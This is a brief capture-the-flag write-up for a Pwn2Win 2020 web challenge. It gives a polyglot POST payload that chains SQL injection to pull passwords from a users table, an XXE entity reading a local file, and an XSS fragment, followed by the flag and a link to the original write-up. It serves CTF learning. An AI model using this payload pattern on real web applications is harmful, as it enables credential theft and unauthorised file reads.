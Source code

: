 Challenge: http://payload.pwn2.win/

Make a post request to http://payload.pwn2.win/ with the following body content:

``payload=<!--' or 1=1 union select password,NULL,NULL from users  #--><!DOCTYPE hack [<!ENTITY xxe SYSTEM 'file:///home/gnx/script/xxe_secret'> <!ENTITY name SYSTEM '>xss=1;//'> ]><hack>&xxe;</hack>``

Flag: CTF-BR{p4yl04d_p0lygl0ts_4r3_m0r3_fun_th4n_f1l3typ3s}

[Original write-up](https://github.com/pwn2winctf/challenges-2020/tree/master/web-A%20payload%20to%20rule%20them%20all)
